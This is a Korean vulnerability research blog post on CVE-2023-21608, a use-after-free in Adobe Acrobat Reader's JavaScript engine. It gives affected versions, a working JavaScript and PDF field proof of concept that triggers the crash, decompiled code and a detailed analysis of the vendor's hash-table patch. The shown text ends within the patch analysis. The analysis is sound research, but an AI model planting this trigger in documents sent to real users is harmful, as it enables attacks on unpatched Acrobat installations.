

# Init

안녕하세요! pwndorei입니다. 오늘은 오랜만에 연구글로 돌아왔습니다!

이번 글에서는 제목처럼 CVE-2023-21608의 분석 및 익스플로잇 과정을 다룰 것이고 하루한줄에 좀 부족함을 느끼셨을 분들을 위한 하루 한 문서쯤 되는 분량입니다 ㅋㅋㅋㅋ


# 1. 취약점 정보

---

## Description

CVE-2023-21608은 Adobe 사의 PDF 문서 편집, 변환 프로그램인 Acrobat과 PDF 뷰어인 Acrobat Reader 제품군에서 발생한 Use-After-Free 취약점입니다. 아래의 취약한 버전의 프로그램들에서 악성 PDF 문서를 열면 문서에 포함된 Javascript 코드가 실행되면서 Use-After-Free가 트리거되고 이를 익스플로잇하여 Remote Code Execution이 가능합니다.

## Affected Product & Version Information

- Adobe Acrobat 2020
    - version ≤ 20.005.30418
- Adobe Acrobat Reader 2020
    - version ≤ 20.005.30418
- Acrobat DC
    - version ≤ 22.003.20282
- Acrobat Reader DC
    - version ≤  22.003.20282

제 경우에는 분석과 익스플로잇을 위해 Adobe Acrobat Reader DC x86의 2022.001.20085 버전을 사용했습니다!

# 2. 취약점 분석

---

먼저 아래는 Use-After-Free를 유발하여 크래시를 발생시키는데 사용된 Javascript 코드입니다.

```jsx
var testField = this.getField("testField");

testField.richText = true;

testField.setAction("Calculate", "calculateCallback()");

try { this.resetForm(); } catch (e) {}

try { this.resetForm(); } catch (e) {}  // bug is triggered during this resetForm call

function calculateCallback()

{

  event.__defineGetter__("target", getterFunc);

  event.richValue = this;

}

function getterFunc()

{

  try { Object.defineProperty(testField, "textFont", { value: this }); } catch(e) { }

}
```

해당 코드가 삽입된 PDF 문서에는 아래와 같은 `testField`라는 이름을 가지는 text field가 존재합니다

```
5 0 obj
<<
/Type /Annot
/Subtype /Widget
/T (testField)
/FT /Tx
/Rect [0 0 0 0]
>>
```

코드가 삽입된 문서를 열게 되면 위의 자바스크립트 코드가 실행되면서 (1)문서 오브젝트 `doc`의 Instance인 `this`의 `getField` 메소드를 호출하여 `testField` 오브젝트를 가져오고 (2)`setAction` 메소드를 통해 `testField`의  `Calculate` 핸들러로 `calculateCallback` 함수를 지정해줍니다. 바로 다음 줄에서 실행되는 (3)`this.resetForm()`은 `Calculate` 핸들러가 정의된 모든 필드 오브젝트에 `calculate` 이벤트를 발생시켜 핸들러가 호출되도록 만듭니다. `testField`의 경우에는 (4)`calculateCallback`함수가 호출되고 이 함수 안에서 `event`의 `target` 속성에 대한 getter를 `getterFunc`로 재정의하고 `richiValue` 속성에 `this`를 대입합니다. 

이로 인해 `richValue`에 대입될 값인 `this` (`doc`)의 모든 속성과 메소드가 `EScript!ESObjectEnum`함수에 의해 재귀적으로 열거되기 시작합니다. 이 과정에서 `event.target`에 접근하게 되어 `getterFunc` 함수가 호출되고 `testField.textFont`가 `this`로 바뀌게 됩니다.

두 번째 `this.resetForm()`에서도 위와 같은 동작이 반복되지만 `this`로 바뀐 `testField.textFont`가 수정 불가능(non-configurable)하기 때문에 `getterFunc`에서 예외가 발생하게 됩니다.

발생한 예외로 인해 `event.richValue`에 접근할 때 호출되는 `AcroForm!GetRichValueEventProp`에서 아래의 분기로 진입하여 `CAggToESVal`함수가 호출되면서 열거 과정에서 할당된 `CAgg`와 `map` 오브젝트를 모두 해제하게 됩니다.

```c
int __cdecl GetRichValueEventProp(wchar_t *arg0, int a2, int a3)
{
...
  else
  {
    LOBYTE(v16) = 0;
    sub_2085ECA0("EventRichValueInProgress");
    sub_20AAE7D6(arg0, v16, v17, v18, v19, 0, 15);
    if ( a1
      && (v9 = *(unsigned __int16 (__fastcall **)(int))(dword_21473CB8 + 180),
          v10 = __guard_check_icall_fptr(a1),
          v9(v10)) )
    {
      PointerType = sub_20A4AD65(a1, (wchar_t *)"richValue", (wchar_t *)"CAgg_P");
      if ( PointerType )
        PointerType = CAggToESVal(PointerType, v12, (wchar_t *)a3, PointerType);// Free All CAgg & map
    }
...
}
```

여기까지만 보면 딱히 큰 문제는 없어 보이지만 오브젝트들의 해제가 열거가 아직 끝나지 않은 상태에서 이루어지기 때문에 이후 해제된 메모리에 접근하면서 Use-After-Free가 발생합니다!!!

```
eax=04f6a0f0 ebx=00000000 ecx=420fefd0 edx=44e1cff8 esi=6921ef50 edi=420fefd0
eip=6c556b99 esp=04f6a0d0 ebp=04f6a0fc iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
AcroForm!CAgg::operator[](unsigned short)+0xe:
6c556b99 8b07            mov     eax,dword ptr [edi]  ds:002b:420fefd0=????????
```

page-heap을 활성화하고 버그를 트리거해보면 Use-After-Free로 인해 `AcroForm!CAgg::operator[]` 에서 위와 같은 크래시가 발생하는 것을 확인할 수 있습니다. 아래의 디컴파일된 코드에서 보면 if문 안에서 `this->type` 에 접근할 때 발생했다는 것을 알 수 있고 따라서 `this`가 UAF가 발생하는 메모리를 가리키고 있다고 볼 수 있습니다.

```c
int __userpurge CAgg::operator[]@<eax>(CAgg *this@<ecx>, bool (*a2)[27]@<ebx>, wchar_t *someID)
{
  ...

  if ( this->type == 0x13 )
  {
    ...
  }
  else
  {
    ...
    else
    {
      CAgg::convert(this, a2, 0x14);
      v4 = (_DWORD *)std::map<unsigned short,CAgg>::operator[](this->map, (int)v9, (unsigned __int16 *)&someID);
    }
    return *v4 + 24;
  }
}
```

해당 함수를 호출한 함수는 아래의 `AcroForm!EScript_ESObjectEnum_CallbackProc`함수로 `CAgg:operator[]`의 첫 번째 인자(`this`)로 전달되는 `pCagg`가 해제된 메모리를 가리키며 이는 `pCAggData`가 가리키는 메모리에서 읽어온 주소입니다.

```c
int __usercall EScript_ESObjectEnum_CallbackProc@<eax>(
        bool (*ebx0)[27]@<ebx>,
        int a2,
        wchar_t *key_str,
        wchar_t *a4,
        int ***pCAggData)
{
  CAgg **pCagg; // edi
  unsigned __int16 someID; // ax
  CAgg *v7; // eax

  pCagg = (CAgg **)*pCAggData;
  someID = (*(int (__cdecl **)(wchar_t *))(gCoreHFT + 20))(key_str); 
  v7 = (CAgg *)CAgg::operator[]((CAgg *)pCagg, ebx0, (wchar_t *)someID);
  ESValToCAgg(v7, a4, 0);
  return 1;
}
```

# 3.  패치 분석

---

버그가 Acrobat의 자바스크립트 엔진에서 발생하기 때문에 이를 트리거할 때도 자바스크립트가 사용되고 뒤에서 다룰 익스플로잇에서도 마찬가지입니다… 평소에 보던 취약점들과는 결이 다르다는게 느껴지네요 🥲

바로 익스플로잇 과정을 알아보기 전에 먼저 이 취약점이 어떻게 패치되었는지 확인해봅시다! 간단한 취약점은 아닌 만큼 패치 또한 코드 한 두줄에서 끝날리 없겠죠? 

먼저 취약점이 패치된 버전(Adobe Acrobat Reader DC 2022.003.20310)과 취약한 버전(Adobe Acrobat Reader DC 2022.001.20085)의 `AcroForm.api`를 Diffing하여 아래와 같은 결과를 얻을 수 있었습니다!



primary와 secondary는 각각 취약한 버전과 패치된 버전의 `AcroForm.api` 이고 둘 사이에 match된 함수들 중에서 버그를 트리거하는 과정에서 호출되는 함수들의 변경점을 살펴본 결과 아래와 같이 `SetRichValueEventProp`과 `GetRichValueEventProp`, `SetRichChangeEventProp`과 `GetRichChangeEventProp`에서 차이가 발생하는 것을 확인할 수 있었습니다.


이중에서도 `GetRichValueEventProp`의 차이를 확인해보면 아래와 같은데요?


노란색으로 표시된 Basic Block은 패치 전후로 차이가 발생하지만 Match되는 Basic Block으로 왼쪽이 primary(패치 전), 오른쪽이 secondary(패치 후)이며 파란색의 코드와 Basic Block은 primary에는 없지만 secondary에는 존재하는 부분을 나타냅니다. 즉 패치로 추가된 파란색 부분이 취약점을 해결하는 코드라고 볼 수 있는거죠.

이를 통해 `GetRichValueEventProp`에는 크게 아래의 두 가지 변경점이 존재하는 것을 알 수 있었습니다.

1. 버그가 트리거되는 `CAggToESVal` 함수 호출 전, `IsDataInGlobalHashTable` 함수의 호출이 선행되고 이 함수의 반환 값이 `CAggToESVal`이 호출되는 Basic Block으로의 분기 여부를 결정
2. `CAggToESVal`이 호출되는 Basic Block에서는 함수 호출 전후로 각각 `InsertToGlobalHashTable`과 `DeleteFromGlobalHashTable` 함수를 호출

디컴파일된 코드를 보면 아래와 같습니다!

```c
      PointerType = sub_20A4BC05(v31, (wchar_t *)"richValue");
      PointerType_1 = PointerType;
      if ( PointerType )
      {
        LOBYTE(PointerType) = IsDataInGlobalHashTable(PointerType);
        if ( !(_BYTE)PointerType )
        {
          v15 = InsertToGlobalHashTable((int)&v31, PointerType_1);
          LOBYTE(v33) = 4;
          CAggToESVal((int)v15, v16, PropName, PointerType_1);
          PointerType = DeleteFromGlobalHashTable((int)&v31);
        }
      }
    }
```

`AcroForm.api`은 심볼이 없기 때문에 함수들을 정성스럽게 분석해본 결과 해시 테이블과 관련된 함수들이라는 것을 알 수 있었고 `InsertToGlobalHashTable`와 `DeleteFromGlobalHashTable` 함수 등 각각의 함수의 기능에 따라 이름을 붙였습니다.

추가된 함수들의 동작을 분석한 결과 열거 도중에 오브젝트들이 free되는 버그의 발생을 막는 것을 알 수 있었고 각각의 함수를 분석한 내용은 아래와 같습니다.

## IsDataInGlobalHashTable

```c
bool __cdecl IsDataInGlobalHashTable(int Data)
{
  int v1; // ecx
  int a2; // [esp+0h] [ebp-4h] BYREF

  a2 = v1;
  return Data && sub_20AD638B(&GlobalHashTable, (ListEntry *)&a2, (int)&Data)->Flink != GlobalHashTable.DefaultHead;
}
```

디컴파일된 코드는 위와 같으며 `sub_20AD638B`를 호출하여 `GlobalHashTable`에 `Data`가 저장되어 있는지 확인합니다.

`GlobalHashTable`은 자료형이 아래의 `HashTable` 구조체인 전역 변수로 연관된 모든 구조체들의 명칭과 정의는 분석을 통해 유추한 것입니다.

### HashTable

```
00000000 ListEntry       struc ; (sizeof=0x8, mappedto_221)
00000000                                         
00000000                                         
00000000 Flink           dd ?                    
00000004 Blink           dd ?                    
00000008 ListEntry       ends
00000008
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 HashBucketEntry struc ; (sizeof=0x10, mappedto_223)
00000000                                         
00000000 list_entry      union1 ?                
00000000                                         
00000008 Data            dd ?                    
00000008                                         
0000000C field_C         dd ?                    
00000010 HashBucketEntry ends
00000010
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 HashTable       struc ; (sizeof=0x30, mappedto_224)
00000000                                         
00000000 unknown0        dd ?
00000004 DefaultHead     dd ?                    
00000004                                         
00000008 length          dd ?
0000000C HashBuckets     HashBucketTable ?       
00000020 field_20        dd ?                    
00000020                                         
00000024 field_24        dd ?
00000028 field_28        dd ?                    
00000028                                         
0000002C field_2C        dd ?                    
0000002C                                         
00000030 HashTable       ends
00000030
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 HashBucketTable struc ; (sizeof=0x14, mappedto_227)
00000000                                         
00000000 HashBucketBegin dd ?                    
00000004 HashBucketEnd   dd ?                    
00000008 HashBucketUnknown dd ?                  
0000000C BucketMaxIndex  dd ?
00000010 BucketCount     dd ?
00000014 HashBucketTable ends
00000014
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 HashBucketEntryHeader struc ; (sizeof=0x8, mappedto_228)
00000000                                         
00000000 BucketHead      dd ?                    
00000004 BucketTail      dd ?                    
00000008 HashBucketEntryHeader ends
00000008
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 union1          union ; (sizeof=0x8, mappedto_229)
00000000                                         
00000000                                         
00000000 list_entry      ListEntry ?
00000000 entry_header    HashBucketEntryHeader ?
00000000 union1          ends
00000000
```

`HashTable`은 해시 테이블 구현을 위한 구조체로 `HashTable.DefaultHead`부터 시작되는 원형 이중 연결 리스트로 데이터를 관리합니다. 원형 이중 연결 리스트는 `HashBucketEntry` 구조체로 이루어져 있으며 원형 연결 리스트의 연속적인 일부분이 각각의 버킷이 되어 해시 테이블을 구성합니다.

해시 테이블을 이루는 버킷들에 대한 정보는 `HashBucketTable` 구조체인 `HashTable.HashBuckets`에 저장되어 있고 `HashBucketTable.HashBucketBegin`이 가리키는 주소부터 `HashBucketTable.HashBucketEnd`가 가리키는 주소까지 `HashBucketTable.BucketCount` 길이의 `HashBucketEntryHeader` 배열이 존재합니다. 이러한 구조를 그림으로 나타내면 아래와 같습니다.


`HashBucketEntryHeader` 배열에는 아래와 같이 원형 이중 연결 리스트에서 특정 버킷에 해당하는 연속된 노드들을 이중 연결 리스트로 관리하고 이 연결 리스트의 Head와 Tail 노드를 `BucketHead`와 `BucketTail`에 저장합니다. 비어있는 버킷의 경우에는 `BucketHead`와 `BucketTail`이 모두 `HashTable.DefaultHead`입니다.


위와 같은 내용을 분석하면서 정말 오랜만에 리버싱이 재미있는 순간이었습니다만… 자주 하고 싶진 않군요… 

무튼 이러한 구조를 갖는 `HashTable`을 인자로 호출된 `sub_20AD638B`는 아래와 같습니다.

### sub_20AD638B

```c
ListEntry *__thiscall sub_20AD638B(HashTable *hashTable, ListEntry *a2, _DWORD *pData)
{
  int DataHash; // eax
  HashBucketEntry *v5; // ecx
  ListEntry *result; // eax
  ListEntry returnPtr; // [esp+4h] [ebp-8h] BYREF

  DataHash = hashFunction(0x811C9DC5, pData, 4u);
  v5 = FindDataFromHashTable(hashTable, &returnPtr, pData, DataHash)->Blink;
  if ( !v5 )
    v5 = hashTable->DefaultHead;
  result = a2;
  a2->Flink = v5;                              
  return result;
}
```

먼저 아래의 `hashFunction`을 호출하여 `pData`가 가리키는 데이터를 해싱합니다. 

```c
int __cdecl hashFunction(int a1, _BYTE *a2, unsigned int len)
{
  unsigned int i; // edx

  for ( i = 0; i < len; ++i )
    a1 = 0x1000193 * (a1 ^ (unsigned __int8)a2[i]);
  return a1;
}
```

이후 `hashFunction`이 반환한 `DataHash`를 인자로 사용하여 `FindDataFromHashTable` 함수를 호출합니다.

### FindDataFromHashTable

```c
ListEntry *__thiscall FindDataFromHashTable(HashTable *hashTable, ListEntry *returnPtr, _DWORD *pData, int DataHash)
{
  int idx; // eax
  HashBucketEntryHeader *v5; // esi
  HashBucketEntry *v6; // ecx
  HashBucketEntry *v7; // edx
  ListEntry *result; // eax

  idx = DataHash & hashTable->HashBuckets.BucketMaxIndex;// Hash & 7
  v5 = hashTable->HashBuckets.HashBucketBegin;  
  v6 = hashTable->DefaultHead;                  // default header
  v7 = v5[idx].BucketTail;                     
  if ( v7 == v6 )                               // bucket is empty
  {
    result = returnPtr;
    returnPtr->Blink = 0;
LABEL_8:
    result->Flink = v6;
  }
  else
  {
    while ( 1 )                                 // Traverse Bucket(doubly linked list)
                                                // from Tail to Head
    {
      if ( *pData == v7->Data )                 // Data Found
      {
        result = returnPtr;
        v6 = v7->list_entry.list_entry.Flink;
        returnPtr->Blink = v7;                  // returnPtr->Filnk = found->Flink
                                                // returnPtr->Blink = found
        goto LABEL_8;
      }
      if ( v7 == v5[idx].BucketHead )
        break;
      v7 = v7->list_entry.list_entry.Blink;
    }
    result = returnPtr;
    returnPtr->Blink = 0;
    returnPtr->Flink = v7;
  }
  return result;                                // Data not found
                                                // 
                                                // returnPtr->Flink = BucketHead
                                                // returnPtr->Blink = NULL;
}
```

이 함수에서는 먼저 `DataHash`를 통해 탐색할 `HashBucketEntryHeader`를 가져옵니다. 탐색은 `BucketTail`부터 `Blink`를 따라 `BucketHead`에 도달할 때까지 이루어지고 만약 `BucketTail`이 `DefaultHead`인 경우 해당 버킷은 비어있다는 것이기에 탐색을 진행하지 않습니다.

버킷이 비어있지 않다면 탐색 결과를 두 번째 인자로 전달된 `returnPtr`에 저장하고 이를 반환합니다.

 버킷이 비어있는 경우나 버킷에 해당하는 데이터가 없는 경우, `returnPtr->Flink`와 `returnPtr->Blink`에 각각 `BucketHead`와 `NULL`이 저장되고 데이터를 찾은 경우에는 해당 데이터를 저장하고 있는 노드의 `Flink`와 노드의 주소가 각각 `returnPtr->Flink`와 `returnPtr->Blink`에 저장되어 반환됩니다.

`sub_20AD638B`에서는 `FindDataFromHashTable`에서 탐색 결과가 저장되고 반환된 `returnPtr`의 `Blink`를 검사하여 이 값이 `NULL`인(HashTable에 해당 데이터가 존재하지 않는) 경우 두 번째 인자 `a2`의 `Flink`에 `hashTable->DefaultHead`를 저장하고 반환합니다.

```c
  v5 = FindDataFromHashTable(hashTable, &returnPtr, pData, DataHash)->Blink;
  if ( !v5 )
    v5 = hashTable->DefaultHead;
  result = a2;
  a2->Flink = v5;                              
  return result;
```

최종적으로 `IsDataInGlobalHashTable` 에서는 아래와 같이 `GlobalHashTable`에 `Data`가 존재하는 경우 반환되는 노드의 주소나 데이터가 없는 경우에 반환되는 `GlobalHashTable.DefaultHead`를 `GlobalHashTable.DefaultHead`와 비교하고 이 결과를 반환합니다.

```c
return Data && sub_20AD638B(&GlobalHashTable, (ListEntry *)&a2, (int)&Data)->Flink != GlobalHashTable.DefaultHead;
//if Data is in GlobalHashTable, then Node's Addr != GlobalHashTable.
//=> return true
//else return false
```

따라서 `GetRichValueEventProp`에서는 아래와 같이 `PointerType`이 `GlobalHashTable`에 존재하지 않을 경우에만 `CAggToESVal`이 호출되는 분기로 진입하게 됩니다.

```c
      if ( PointerType )
      {
        LOBYTE(PointerType) = IsDataInGlobalHashTable(PointerType);
        if ( !(_BYTE)PointerType )
        {
          v15 = InsertToGlobalHashTable((int)&v31, PointerType_1);
          LOBYTE(v33) = 4;
          CAggToESVal((int)v15, v16, PropName, PointerType_1);
          PointerType = DeleteFromGlobalHashTable((int)&v31);
        }
      }
```

아래는 `CAggToESVal` 이전에 호출되는 `InsertToGlobalHashTable`함수의 분석입니다.

## InsertToGlobalHashTable

```c
_DWORD *__thiscall InsertToGlobalHashTable(int a1, int Data)
{
  int v4[2]; // [esp+4h] [ebp-8h] BYREF

  if ( Data )
  {
    InsertIfNotPresent(&GlobalHashTable, (ListEntry *)v4, (int)&Data)->Flink->field_C = 1;
    *(_DWORD *)a1 = Data;
  }
  return (_DWORD *)a1;
}
```

`GlobalHashTable`과 해시 테이블에 추가할 데이터의 주소를 인자로 `InsertIfNotPresent`함수를 호출합니다. 호출된 함수가 반환되면 첫 번째 인자 `a1`이 가리키는 주소에 `Data`를 쓰고 반환합니다.

### InsertIfNotPresent

```c
ListEntry *__thiscall InsertIfNotPresent(HashTable *hashTable, ListEntry *a2, int *pData)
{
  int DataHash; // ebx
  ListEntry *result; // eax
  HashBucketEntry *newBucketEntry; // edi
  HashBucketEntry *BucketHead; // ecx
  HashBucketEntry *v8; // eax
  bool v9; // zf
  ListEntry findResult; // [esp+10h] [ebp-24h] BYREF
  HashBucketEntry v11; // [esp+18h] [ebp-1Ch] BYREF
  int v12; // [esp+30h] [ebp-4h]

  DataHash = hashFunction(0x811C9DC5, pData, 4u);
  FindDataFromHashTable(hashTable, &findResult, pData, DataHash);
  if ( findResult.Blink )                       // Data is present in HashTable, no insertion
  {
    result = a2;
    a2->Flink = findResult.Blink;
    LOBYTE(a2->Blink) = 0;
  }
  else                                          // Data is not present -> insertion occurs
  {
    hashTableLengthCheck(hashTable);
    v11.Data = (int)pData;
    AllocateNewNode(&v11, (HashBucketEntry *)&hashTable->DefaultHead, &dword_2100AE5C, (int)&v11.Data);// allocate new node
                                                // v11.list_entry.list_entry.blink = new_node
    v12 = 0;
    if ( IsBucketExpandNeeded(hashTable) )
    {
      expandHashTable(hashTable);
      newBucketEntry = v11.list_entry.list_entry.Blink;
      BucketHead = FindDataFromHashTable(hashTable, &findResult, &v11.list_entry.list_entry.Blink->Data, DataHash)->Flink;
    }
    else
    {
      BucketHead = findResult.Flink;
      newBucketEntry = v11.list_entry.list_entry.Blink;
    }
    v11.list_entry.list_entry.Blink = 0;
    v8 = InsertIntoHashTable(hashTable, DataHash, BucketHead, newBucketEntry);
    v9 = v11.list_entry.list_entry.Blink == 0;
    a2->Flink = v8;
    LOBYTE(a2->Blink) = 1;
    if ( !v9 )
      sub_20867B89(v11.list_entry.list_entry.Blink);
    result = a2;
  }
  return result;
}
```

이 함수에서는 `hashFunction`과 `FindDataFromHashTable`로 먼저 삽입할 데이터가 해시 테이블에 존재하는지 확인합니다. 이미 존재하는 경우 `findResult.Blink`가 `NULL`이 아닌 값으로 설정되기에 `if`로 분기하여 삽입 과정 없이 함수가 반환되고 해시 테이블에 삽입할 데이터가 없는 경우 `else`로 분기하여 데이터의 삽입이 이루어집니다.

`else` 분기에서는 `AllocateNewNode`함수가 호출되어 `Data`에 `*pData`가 저장된 새로운 노드가 할당되고 `findResult.Flink`가 가리키는 데이터가 삽입될 버킷의 `Head`주소와 할당된 노드를 인자로 `InsertIntoHashTable` 함수를 호출합니다.

### InsertIntoHashTable

`InsertIntoHashTable` 함수에서는 아래와 같이 `target->Blink`에 `newNode`를 삽입하는 동작을 합니다.

```c
HashBucketEntry *__thiscall InsertIntoHashTable(HashTable *hashTable, int DataHash, HashBucketEntry *target, HashBucketEntry *newNode)
{
  HashBucketEntry *tmp; // ebx
  int idx; // edx
  HashBucketEntryHeader *v6; // esi
  HashBucketEntry *result; // eax

  tmp = target->list_entry.list_entry.Blink;
  ++hashTable->length;                          // Increase Length
  newNode->list_entry.list_entry.Flink = target;
  newNode->list_entry.list_entry.Blink = tmp;
  tmp->list_entry.list_entry.Flink = newNode;
  target->list_entry.list_entry.Blink = newNode;// 
  // Blink: <-
  // Flink: ->
  // 
  // Before Insertion
  // 
  // ... <-> tmp <-> target <-> ...
  // 
  // After Insertion
  //  
  //  ... <-> tmp <-> newNode <-> target <-> ...
  idx = DataHash & hashTable->HashBuckets.BucketMaxIndex;
  v6 = hashTable->HashBuckets.HashBucketBegin;
  result = newNode;
  if ( v6[idx].BucketHead == hashTable->DefaultHead )
  {
    v6[idx].BucketHead = newNode;
LABEL_6:
    v6[idx].BucketTail = newNode;
    return result;
  }
  if ( v6[idx].BucketHead == target )
  {
    v6[idx].BucketHead = newNode;
    return result;
  }
  if ( v6[idx].BucketTail == tmp )
    goto LABEL_6;
  return result;
}
```

이후 삽입으로 인해 버킷의  Head나 Tail이 바뀐 경우, 해당하는 `HashBucketEntryHeader`의 `BucketHead`나 `BucketTail`을 변경합니다.

위 과정을 통해 해시 테이블에 `PointerType`의 삽입이 이루어진 다음 `CAggToESVal`함수가 호출되고 이후 아래의 `DeleteFromGlobalHashTable` 함수가 호출됩니다.

## DeleteGlobalFromHashTable

```c
int __thiscall DeleteFromGlobalHashTable(_DWORD *pData)
{
  int result; // eax

  if ( *pData )                                 
  {
    result = DeleteFromHashTable(&GlobalHashTable, pData);
    *pData = 0;
  }
  return result;
}
```

`GlobalHashTable`과 `pData`를 인자로 `DeleteFromHashTable`을 호출합니다

### DeleteFromHashTable

```c
int __thiscall DeleteFromHashTable(HashTable *hashTable, _DWORD *pData)
{
  int DataHash; // ebx
  HashBucketEntry *v4; // edi
  ListEntry result; // [esp+Ch] [ebp-8h] BYREF

  DataHash = hashFunction(0x811C9DC5, pData, 4u);
  v4 = FindDataFromHashTable(hashTable, &result, pData, DataHash)->Blink;
  if ( !v4 )
    return 0;                                   // Not Found, No deletion
  UnlinkTargetFromBucketEntryHeader(hashTable, v4, DataHash & hashTable->HashBuckets.BucketMaxIndex);
  UnlinkSelf((int *)&hashTable->DefaultHead, v4);
  return 1;
}
```

호출된 `DeleteFromHashTable`함수에서는 `hashFunction`과 `FindDataFromHashTable` 함수 호출을 통해 해시 테이블에서 제거하고자 하는 데이터가 해시 테이블에 존재하는지 확인합니다. 존재하지 않는다면 다른 동작을 수행하지 않고 반환합니다.

제거할 데이터가 해시 테이블에 존재한다면 먼저 아래의 `UnlinkTargetFromBucketEntryHeader` 함수가 호출됩니다.

### UnlinkTargetFromBucketEntryHeader

```c
HashBucketEntry *__thiscall UnlinkTargetFromBucketEntryHeader(HashTable *hashTable, HashBucketEntry *target, int Idx)
{
  HashBucketEntryHeader *v3; // edx
  HashBucketEntry *result; // eax

  v3 = hashTable->HashBuckets.HashBucketBegin;
  result = target;
  if ( v3[Idx].BucketTail == target )           
  {
    if ( v3[Idx].BucketHead == target )        
    {
      result = hashTable->DefaultHead;
      v3[Idx].BucketHead = result;
    }
    else
    {
      result = target->list_entry.list_entry.Blink;
    }
    v3[Idx].BucketTail = result;
  }
  else if ( v3[Idx].BucketHead == target )
  {
    result = target->list_entry.list_entry.Flink;
    v3[Idx].BucketHead = target->list_entry.list_entry.Flink;
  }
  return result;
}
```

이 함수에서는 `BucketHead`와 `BucketTail`가 제거하고자 하는 노드인 `target`과 같은지 검사하여 Head나 Tail 혹은 양쪽 모두를 갱신합니다. 이를 통해 `target`이 `BucketHead`인 경우에는 `target->Flink`를 새로운 Head로 갱신하고 `BucketTail`인 경우에는 `target->Blink`를 새로운 Tail로 갱신합니다. `target`이 버킷에 존재하는 유일한 노드라면 `BucketHead`와 `BucketTail`을 모두 `hashTable->DefaultHead`로 변경하여 버킷이 비었음을 나타냅니다.

`DeleteFromHashTable`에서 이 함수가 반환한 다음 호출되는 것은 아래의 `UnlinkSelf` 함수입니다

### UnlinkSelf

```c
int __thiscall UnlinkSelf(int *a1, HashBucketEntry *target)
{
  HashBucketEntry *v2; // esi

  v2 = target->list_entry.list_entry.Flink;
  --a1[1];                                      // decrease length
  target->list_entry.list_entry.Blink->list_entry.list_entry.Flink = v2;// Unlink
  v2->list_entry.list_entry.Blink = target->list_entry.list_entry.Blink;
  sub_20867B89(target);                         // free
  return (int)v2;
}
```

첫 번째 인자 `a1`으로 전달된 `GlobalHashTable.DefaultHead`의 주소에 4를 더한 주소에 위치한 `length`를 1 감소시키고 제거하고자 하는 노드인 `target`을 연결 리스트에서 제거합니다. 이후 호출되는 `sub_20867B89`에서는 `target`이 가리키는 메모리의 해제가 이루어집니다.

## Patched : SetRichValueEventProp & GetRichValueEventProp

`IsDataInGlobalHashTable`, `InsertToGlobalHashTable`, `DeleteFromGlobalHashTable`함수의 호출은 아래와 같이 `SetRichValueEventProp` 함수에도 `GetRichValueEventProp`과 유사한 방식으로 추가되었습니다.

그럼 이제 이러한 코드들이 추가됨으로써 어떻게 취약점이 발생하지 않게 되는지 알아봅시다!

```c
int __cdecl SetRichValueEventProp(wchar_t *a1, int a2, int a3)
{
  ...
  if ( v7() )
  {
    ...
    if ( !v8() )
    {
      ...
      if ( (_WORD)v34 == v16()
        || (v29 = 0,
            v28 = (int)"bWillCommit",
            v27 = v4,
            v17 = *(int (**)(void))(dword_2147CFA0 + 196),
            __guard_check_icall_fptr(v4, "bWillCommit"),
            v18 = v17(),
            (_WORD)v18) )
      {
LABEL_12:
        v29 = "CAgg_P";
        v18 = sub_20A4BC05(v4, (wchar_t *)"richValue");
        PointerType = (_DWORD *)v18;
        if ( v18 )
        {
          LOBYTE(v18) = IsDataInGlobalHashTable(v18);
          if ( !(_BYTE)v18 )                    // Not in process
          {
            v21 = InsertToGlobalHashTable((int)&PointerTypePtr, (int)PointerType);
            LOBYTE(v36) = 1;
            CAgg::Convert((int)v21, v22, PointerType, 0);
            sub_20AD749C((int)PointerType, v33, 0);// GetRichValueEventProp called
            v23 = *(void (**)(void))(dword_2147CFA0 + 200);
            v29 = (const wchar_t *)1;
            __guard_check_icall_fptr(v4, "bModified");
            v23();
            v18 = DeleteFromGlobalHashTable((int)&PointerTypePtr);
          }
        }
      }
      sub_20AAE6F7(v18, v19, v35);
    }
    result = 1;
  }
  else
  {
    ...
  }
  return result;
}
```

취약한 버전에서 버그가 트리거되는 과정이 패치된 버전에 동일하게 적용될 경우, 먼저 `SetRichValueEventProp`에서 호출된 `IsDataInGlobalHashTable`의 반환 값이 0인 경우 `InsertToGlobalHashTable` 함수가 호출되어 `PointerType`이 해시 테이블에 추가될 것이고 이후 호출되는 `sub_20AD749C`함수로 인해 `GetRichValueEventProp` 함수가 호출되고 아래의 코드가 실행되면서 `IsDataInGlobalHashTable`함수가 호출됩니다.

```c
int __cdecl GetRichValueEventProp(wchar_t *a1, int a2, int a3)
{
  ...
  if ( v5() )
  {
    ...
  }
  else
  {
    ...
    if ( v31
      && (v23 = "richValue",
          v22 = (int)v31,
          v11 = *(unsigned __int16 (__fastcall **)(int))(dword_2147CFA0 + 180),
          v12 = __guard_check_icall_fptr(v31, "richValue"),
          v11(v12)) )
    {
      v23 = "CAgg_P";
      PointerType = sub_20A4BC05(v31, (wchar_t *)"richValue");
      PointerType_1 = PointerType;
      if ( PointerType )
      {
        LOBYTE(PointerType) = IsDataInGlobalHashTable(PointerType);
        if ( !(_BYTE)PointerType )
        {
          v15 = InsertToGlobalHashTable((int)&v31, PointerType_1);
          LOBYTE(v33) = 4;
          CAggToESVal((int)v15, v16, PropName, PointerType_1);
          PointerType = DeleteFromGlobalHashTable((int)&v31);
        }
      }
    }
    ...
  }
  return result;
}
```

취약한 버전에서는 아무런 검증 없이 `CAggToESVal`이 호출되어 열거 도중에 오브젝트들이 해제되고 이후 Use-After-Free가 발생하게 되지만 패치된 버전에서는 `CAggToESVal`을 호출하기 전에 `IsDataInGlobalHashTable` 함수가 호출됩니다. 이때의 `PointerType`은 `SetRichValueEventProp`의 `PointerType`과 같고 `SetRichValueEventProp`에서 호출된 `InsertToGlobalHashTable` 함수에 의해 이미 해시 테이블에 존재하는 상태입니다.

